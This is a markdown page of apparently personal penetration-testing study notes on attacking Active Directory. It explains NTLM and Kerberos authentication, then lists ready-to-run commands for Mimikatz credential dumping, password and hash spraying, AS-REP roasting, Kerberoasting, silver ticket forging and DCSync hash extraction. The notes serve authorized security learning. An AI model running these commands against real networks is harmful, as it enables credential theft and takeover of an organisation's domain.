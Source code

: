 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory
---
```


## Understanding Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

## AD Password Attacks

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) 
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
- SMB password spraying
	- Use `crackmapexec`
		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
			- Can also pass single username/password
		- This sprays passwords against a single IP's SMB share
		- This will also show whether the user is an administrator
	- SMB hash spraying
		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
	- Crackmapexec can also run comands via SMB:
		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below
- WinRM
	- Indicated by port 5985/5986
	- `evil-winrm -i {IP} -u {domain_user} -p {password}`
	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
- RPC:
	- Indicated by port 135,593
	- Can get an RPC shell with `rpcclient -U {username} {IP}`
		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
		- `queryuser {username}` to get user properties (passwords could be in descriptions)
			- Can also just `querydispinfo`
	- Could also have a null session (basically allowing anonymous users to connect and query info)
    	- `enum4linux` will check for this
    	- `rpcclient -U "" {IP} -N`

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- Basically forging a ticket using a hash that tells the service we have more permissions than we actually do
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to `NT Authority\System`
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service with the following:
	- `iwr -UseDefaultCredentials {protocol}://{dnshostname}`

**Domain Controller Synchronization**
- Sometimes multiple DCs across an environment for redundancy
- These DCs use Directory Replication Service (DRS) to synchronize
- DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
	- This means that we just need a user with the correct privileges
	- *Required*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 
		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
- If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
- Performed with `mimikatz` on domain-joined machine or `impacket-secretsdump` on kali
	- This gives us a way to get the hash of any domain user
	- `lsadump::dcsync /user:{domain}\{user}` 
- Can also be performed with `impacket-secretsdump`
	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`
